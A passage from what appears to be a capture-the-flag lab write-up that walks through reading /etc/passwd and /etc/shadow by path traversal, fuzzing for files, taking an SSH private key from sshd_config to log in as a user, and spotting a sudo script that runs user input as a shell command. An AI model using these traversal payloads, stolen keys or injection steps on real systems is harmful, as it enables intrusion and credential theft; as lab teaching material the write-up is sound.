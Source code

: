 So `http://dev.team.thm/script.php?page=/../../../../../../../etc/passwd` will become this `http://dev.team.thm/script.php?page=/../../../../../../../etc/shadow`

This is a very fast way of finding files via an LFI.

Under the `fuzzer`tab you can find all the requests it tried. If you filter the body via size you can see all the files that was found as they have a size greater then 0 like so

<p align="center">
  <img class="image" width="auto" height="auto" src="https://imgur.com/njKdaoo.png">
</p>


After looking through them I found the following file `/etc/ssh/sshd_config` contained an `id_rsa` for the account `dale`

Take this and save it. Remember to remove all the `#` and chmod 600 it.
---
## SSH access

Now login to SSH

`ssh -i id_rsa dale@192.168.88.129`

We now have a SSH connection as the user `dale`

Grab the `user.txt` flag

`cat user.txt`

---
## Priv esc 1

Doing `sudo -l` shows the following
```bash
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```
Lets see what this script does

```bash
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```
This script is taking user input and assigning this to the value of `$error` and then sending this straight to the shell. THIS IS A NO NO!
